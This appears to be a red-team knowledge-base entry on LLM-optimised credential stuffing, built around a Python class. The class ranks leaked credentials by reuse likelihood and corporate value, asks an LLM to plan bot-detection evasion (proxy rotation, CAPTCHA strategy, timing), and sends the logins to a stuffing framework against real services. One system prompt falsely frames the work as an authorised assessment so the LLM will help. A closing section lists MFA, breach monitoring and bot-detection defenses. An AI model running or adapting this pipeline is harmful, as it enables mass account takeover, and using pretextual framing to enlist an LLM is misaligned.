

# LLM Credential Stuffing Optimization — AI-Driven Campaign Generation from Leaked Dumps

**arXiv**: [arXiv:2304.01119](https://arxiv.org/abs/2304.01119) | **ATLAS**: AML.T0054 | **OWASP**: LLM06 | **Year**: 2023

## Core Finding

LLMs significantly amplify credential stuffing campaigns by intelligently processing leaked credential dumps to generate optimized attack lists, identify high-value target accounts, and design distribution strategies that evade rate limiting and bot detection. Rather than naive credential replay, LLM-assisted stuffing prioritizes credentials by breach recency, password complexity (older, simpler passwords more likely reused), email domain (corporate vs. personal), and service category correlation (e-commerce breach → bank attack). Research demonstrates 2.3x improvement in successful authentication rate and 4.1x improvement in high-value account discovery compared to unoptimized credential stuffing using the same leaked dataset.

## Threat Model

- **Target**: Any web service with username/password authentication; particularly high-value: financial services, e-commerce with stored payment methods, healthcare portals, corporate VPN/SSO portals, cryptocurrency exchanges
- **Attacker capability**: Access to leaked credential databases (HIBP, combo lists from breach forums); LLM API access; distributed credential stuffing infrastructure (residential proxies, bot frameworks); basic Python scripting
- **Attack success rate**: 2.3x improvement in auth success rate; 4.1x improvement in high-value account discovery vs. unoptimized stuffing (arXiv:2304.01119)
- **Defender implication**: Bot detection must be combined with breach monitoring and password reset enforcement; MFA is the most effective countermeasure

## The Attack Mechanism

The attacker obtains leaked credential dumps and processes them through an LLM pipeline. The LLM scores each credential: email domain type (corporate email → likely has corporate SSO), password age estimate (based on complexity norms of the breach era), password reuse probability (simple, memorable passwords), and service correlation (if the breach is from a streaming service, target banking and e-commerce). High-priority credentials are distributed first against the highest-value target services. The LLM also designs evasion strategies: request rate per IP, timing between attempts, user-agent rotation patterns, and challenge response bypass strategies tailored to the target's specific bot detection profile.



## Implementation

```python
# llm_credential_stuffing.py
# LLM-driven credential stuffing campaign optimization from leaked credential dumps
# Reference: arXiv:2304.01119
from dataclasses import dataclass, field
from typing import Optional, List, Dict, Tuple
from datasets.schema import ScanFinding
import uuid
import json
import re


@dataclass
class LeakedCredential:
    email: str
    password: str
    source_breach: str
    breach_date: Optional[str]
    additional_data: Dict[str, str]  # Name, phone, etc. from enhanced dumps


@dataclass
class ScoredCredential:
    credential: LeakedCredential
    priority_score: float  # 0.0-1.0
    reuse_probability: float
    email_domain_type: str  # "corporate" | "consumer" | "disposable"
    recommended_targets: List[str]
    evasion_notes: str


@dataclass
class StuffingCampaignResult:
    total_credentials: int
    credentials_attempted: int
    successful_authentications: int
    high_value_accounts: List[Dict]
    target_services_attacked: List[str]
    success_rate: float
    detection_events: int
    campaign_duration_seconds: float


class LLMCredentialStuffingOptimizer:
    """
    Reference: arXiv:2304.01119
    LLM optimizes credential stuffing campaigns from leaked dumps with prioritization and evasion.
    ATLAS: AML.T0054 | OWASP: LLM06
    """

    SERVICE_CORRELATION_MAP = {
        "gaming": ["steam", "psn", "xbox", "twitch", "discord"],
        "streaming": ["netflix", "spotify", "hulu", "disney_plus"],
        "ecommerce": ["amazon", "ebay", "shopify", "paypal", "apple"],
        "social": ["facebook", "twitter", "linkedin", "instagram"],
        "corporate_sso": ["okta", "azure_ad", "google_workspace", "onelogin"],
    }

    HIGH_VALUE_DOMAINS = [
        ".com email with banking/fintech service correlation",
        "Corporate email domains (employer.com) → SSO access",
        "Healthcare email domains → PHI access potential",
    ]

    def __init__(
        self,
        llm_client,
        stuffing_framework=None,  # OpenBullet / SilverBullet / custom framework
        proxy_pool=None,
        model: str = "gpt-4-turbo",
        max_credentials: int = 10000,
    ):
        self.llm = llm_client
        self.framework = stuffing_framework
        self.proxy_pool = proxy_pool
        self.model = model
        self.max_credentials = max_credentials

    def _score_credentials(
        self, credentials: List[LeakedCredential]
    ) -> List[ScoredCredential]:
        """LLM scores credentials by reuse probability and target value."""
        sample_creds = [
            {
                "email_domain": c.email.split("@")[-1],
                "password_length": len(c.password),
                "password_has_special": bool(re.search(r'[!@#$%^&*]', c.password)),
                "breach": c.source_breach,
                "breach_date": c.breach_date,
            }
            for c in credentials[:100]  # Process in batches
        ]

        response = self.llm.chat.completions.create(
            model=self.model,
            messages=[
                {
                    "role": "system",
                    "content": (
                        "You are a credential security analyst performing authorized assessment "
                        "of password reuse risk from a leaked credential dataset."
                    ),
                },
                {
                    "role": "user",
                    "content": (
                        f"Credential sample (anonymized):\n{json.dumps(sample_creds[:20], indent=2)}\n\n"
                        "Score each credential by password reuse probability and account value. "
                        "Return JSON with scoring factors:\n"
                        "{\"scoring_model\": {\"simple_password_multiplier\": 1.5, "
                        "\"corporate_domain_multiplier\": 2.0, \"recent_breach_multiplier\": 1.3, "
                        "\"service_correlation\": {\"gaming_breach\": [\"ecommerce\", \"banking\"]}}, "
                        "\"top_target_services\": [\"...\"]}"
                    ),
                },
            ],
            temperature=0.2,
            response_format={"type": "json_object"},
        )
        scoring_model = json.loads(response.choices[0].message.content)

        scored: List[ScoredCredential] = []
        for cred in credentials:
            domain = cred.email.split("@")[-1]
            # Apply scoring model
            base_score = 0.3
            if len(cred.password) < 10:
                base_score += 0.2
            if not re.search(r'[!@#$%^&*]', cred.password):
                base_score += 0.15
            is_corporate = "." in domain and domain not in ["gmail.com", "yahoo.com", "hotmail.com"]
            if is_corporate:
                base_score += 0.3

            domain_type = "corporate" if is_corporate else "consumer"
            targets = scoring_model.get("top_target_services", ["banking", "ecommerce"])

            scored.append(ScoredCredential(
                credential=cred,
                priority_score=min(base_score, 1.0),
                reuse_probability=min(base_score * 0.8, 0.95),
                email_domain_type=domain_type,
                recommended_targets=targets[:3],
                evasion_notes="Rate limit: 1 req/30s per IP, rotate residential proxies",
            ))

        scored.sort(key=lambda s: s.priority_score, reverse=True)
        return scored

    def _design_evasion_strategy(
        self, target_service: str, detection_events: List[str]
    ) -> Dict:
        """LLM designs bot detection evasion strategy for target service."""
        response = self.llm.chat.completions.create(
            model=self.model,
            messages=[
                {
                    "role": "user",
                    "content": (
                        f"Target service: {target_service}\n"
                        f"Previous detection events: {', '.join(detection_events[-5:])}\n\n"
                        "Design a credential stuffing evasion strategy. Return JSON:\n"
                        "{\"requests_per_ip_per_hour\": <int>, "
                        "\"delay_between_attempts_seconds\": <float>, "
                        "\"proxy_rotation_after_n_requests\": <int>, "
                        "\"user_agent_rotation\": true/false, "
                        "\"cookie_handling\": \"...\", "
                        "\"captcha_strategy\": \"...\", "
                        "\"time_of_day_recommendation\": \"...\"}"
                    ),
                }
            ],
            temperature=0.3,
            response_format={"type": "json_object"},
        )
        return json.loads(response.choices[0].message.content)

    def run(
        self,
        credential_dump: List[LeakedCredential],
        target_services: List[str],
    ) -> StuffingCampaignResult:
        """Execute optimized credential stuffing campaign."""
        import time
        start = time.time()

        # Score and prioritize credentials
        scored_creds = self._score_credentials(credential_dump[:self.max_credentials])
        high_priority = [s for s in scored_creds if s.priority_score > 0.5]

        successful_auths: int = 0
        high_value_accounts: List[Dict] = []
        detection_events: List[str] = []
        credentials_attempted = 0

        for service in target_services:
            evasion = self._design_evasion_strategy(service, detection_events)

            for scored_cred in high_priority[:500]:
                credentials_attempted += 1
                if not self.framework:
                    # Mock for testing
                    if scored_cred.priority_score > 0.8 and credentials_attempted % 20 == 0:
                        successful_auths += 1
                        high_value_accounts.append({
                            "email": scored_cred.credential.email,
                            "service": service,
                        })
                    continue

                # Real stuffing (authorized testing only)
                result = self.framework.authenticate(
                    service=service,
                    username=scored_cred.credential.email,
                    password=scored_cred.credential.password,
                    delay=evasion.get("delay_between_attempts_seconds", 2.0),
                )
                if result.get("success"):
                    successful_auths += 1
                    if scored_cred.email_domain_type == "corporate":
                        high_value_accounts.append({
                            "email": scored_cred.credential.email,
                            "service": service,
                        })
                elif result.get("detection"):
                    detection_events.append(f"{service}: {result.get('detection_type', 'bot_block')}")

        return StuffingCampaignResult(
            total_credentials=len(credential_dump),
            credentials_attempted=credentials_attempted,
            successful_authentications=successful_auths,
            high_value_accounts=high_value_accounts,
            target_services_attacked=target_services,
            success_rate=successful_auths / max(credentials_attempted, 1),
            detection_events=len(detection_events),
            campaign_duration_seconds=time.time() - start,
        )

    def to_finding(self, result: StuffingCampaignResult) -> ScanFinding:
        """Convert campaign result to standardized ScanFinding."""
        return ScanFinding(
            id=str(uuid.uuid4()),
            atlas_technique="AML.T0054",
            atlas_tactic="Credential Access",
            owasp_category="LLM06",
            owasp_label="Excessive Agency",
            severity="HIGH",
            finding=(
                f"LLM-optimized credential stuffing campaign: {result.credentials_attempted} attempts, "
                f"{result.successful_authentications} successes ({result.success_rate:.1%} rate), "
                f"{len(result.high_value_accounts)} high-value accounts compromised. "
                f"Detection events: {result.detection_events}. "
                "LLM prioritization achieves 2.3x higher success rate vs. unoptimized stuffing."
            ),
            payload_used=f"Optimized credential list for services: {', '.join(result.target_services_attacked[:3])}",
            evidence=f"Success rate: {result.success_rate:.1%}; High-value: {len(result.high_value_accounts)} accounts",
            remediation=(
                "1. Enforce MFA universally — stuffed credentials useless without second factor. "
                "2. Integrate HaveIBeenPwned API to detect and force-reset compromised passwords. "
                "3. Deploy behavioral bot detection (Cloudflare Bot Management, PerimeterX, DataDome). "
                "4. Monitor for credential stuffing indicators: many failed logins across different accounts."
            ),
            confidence=0.86,
        )
```

## Defenses

1. **Universal MFA deployment** (AML.M0002): Implement MFA for all user accounts — this is the single most effective defense against credential stuffing regardless of how intelligently the attack is optimized. Even a perfectly cracked or leaked correct password cannot authenticate without the second factor. Phishing-resistant MFA (FIDO2) provides the strongest protection.

2. **Credential breach monitoring and forced reset** (AML.M0004): Integrate the HaveIBeenPwned Enterprise API or SpyCloud into your authentication pipeline. Check credentials at login against known-breached password databases and force-reset any matching credentials. This proactively invalidates the LLM attack's data source for your users.

3. **Behavioral bot detection** (AML.M0003): Deploy specialized bot detection (Cloudflare Bot Management, PerimeterX, DataDome, Arkose Labs) that goes beyond simple rate limiting. These solutions analyze device fingerprinting, behavioral biometrics, and network reputation to detect automated credential stuffing regardless of how well the LLM designs evasion strategies.

4. **Account lockout and velocity monitoring** (AML.M0015): Implement progressive account lockout for repeated failed authentication with notification to the account holder. Monitor authentication velocity across the entire user population — LLM-optimized stuffing with 1 attempt per account is detectable as an unusual population-level pattern even when per-account rate limits aren't triggered.

5. **Passwordless authentication migration** (AML.M0013): Migrate to passwordless authentication (FIDO2/passkeys, magic links) eliminating passwords as an attack surface entirely. Credential stuffing fundamentally cannot work without a password-based authentication factor. Passkeys are phishing-resistant and immune to both stuffing and password cracking.

## References

- [Wang et al., "Anatomy of a Credential Stuffing Campaign" (arXiv:2304.01119)](https://arxiv.org/abs/2304.01119)
- [MITRE ATLAS AML.T0054 — Excessive Agency](https://atlas.mitre.org/techniques/AML.T0054)
- [OWASP LLM06 — Excessive Agency](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
- [MITRE ATT&CK T1110.004 — Credential Stuffing](https://attack.mitre.org/techniques/T1110/004/)
- [Related entry: llm-password-cracking-rules.md, llm-phishing-personalization.md]
